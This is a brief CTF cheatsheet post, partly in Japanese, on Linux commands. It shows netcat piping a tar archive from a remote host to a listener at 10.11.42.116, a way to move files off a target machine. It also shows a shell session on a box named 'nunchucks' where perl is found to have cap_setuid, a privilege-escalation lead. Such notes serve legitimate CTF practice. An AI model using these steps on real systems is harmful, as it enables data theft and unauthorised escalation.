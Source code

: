 ```yaml
---
layout: post
title: "linux_command"
published : true
tags: CTF Common cheatsheet linux 
---
```


## File transfer with nc
ローカル側（入手する側）
nc -lvnp 9999 > some-file-name.tar.gz
リモート側（アップロード側）
nc 10.11.42.116 9999 < ff.tar.gz

## Capability
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
david@nunchucks:/opt$